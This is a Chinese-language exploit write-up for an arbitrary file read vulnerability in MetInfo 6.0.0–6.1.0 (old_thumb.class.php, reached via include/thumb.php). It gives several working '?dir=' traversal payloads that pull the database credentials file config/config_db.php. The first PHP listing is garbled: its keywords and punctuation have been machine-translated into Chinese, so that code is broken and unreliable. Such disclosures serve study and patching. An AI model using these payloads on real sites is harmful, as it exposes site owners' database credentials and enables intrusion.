 # MetInfo 任意文件读取

### 一、漏洞简介

MetInfo是一套使用PHP和Mysql开发的内容管理系统。 MetInfo 6.0.0~6.1.0版本中的 old_thumb.class.php文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

### 二、漏洞影响

* MetInfo 6.0.0
* MetInfo 6.1.0

### 三、复现过程

漏洞分析

进攻分析

看下\MetInfo6\app\system\include\module\old_thumb.class.php


```php
<？php 
＃MetInfo企业内容管理系统
＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

define（'IN_MET'）或 退出（'No权限'）;

load :: sys_class（'web'）;

class  old_thumb  扩展了 网络 {

      公共 功能 doshow （） { 全局 $ _M;
        

        $ DIR = str_replace函数（'../' ，''，$ _GET [ '目录' ]）;


        if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
            header（“ Content-type：image / jpeg”）; 
            ob_start（）; 
            readfile（$ dir）; 
            ob_flush（）; 
            flush（）; 死 ;         }
            


        if（$ _M [ 'form' ] [ 'pageset' ]）{ 
          $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

        } else { 
          $ path = $ dir; 
        } 
        $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;
        





        


            readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
            ob_flush（）; 
            flush（）; 
        }

    } 
}

＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。
＃版权所有（C）MetInfo Co.，Ltd.（http://www.metinfo.cn）。版权所有。
？>
```

从代码中看用看到，`$dir`直接由`$_GET['dir']`传递进来，并将../置空。目标是进入到第一个，如果里面的`readfile($dir);`，读取文件。看看如果语句的条件，的英文外面一个strstr函数，判断`$dir`中http字符串的首次出现位置，实质上，要进入到这个if语句里面，`$dir`中必须包含http字符串。里面的将`$dir`中包含`$_M['url']['site']`的部分放置空，这里可以不用管。

![](images/15891628908693.png)


从上面的分析可以构造出有效负载，只要`$dir`里包含http字符串就可以进入到readfile函数从而重新读取任意函数，然后可以使用..././来进行目录替换，因为../会被置空，所以最终payload如下


```
?dir=..././http/..././config/config_db.php
?dir=.....///http/.....///config/config_db.php
?dir=http/.....///.....///config/config_db.php
?dir=http\..\..\config\config_db.php
```

### 漏洞复现

要先找到调用old_thumb.class.php的文件，看到include/thumb.php，可以从这个文件里面进入到old_thumb.class.php


```php
<?php
# MetInfo Enterprise Content Management System
# Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
define('M_NAME', 'include');
define('M_MODULE', 'include');
define('M_CLASS', 'old_thumb');
define('M_ACTION', 'doshow');
require_once '../app/system/entrance.php';
# This program is an open source system, commercial use, please consciously to purchase commercial license.
# Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
?>
```

所以我们通过thumb.php将构造好的`$dir`传入即可。

![](images/15891629363641.png)


可以看到成功的读取到了config/config_db.php的内容。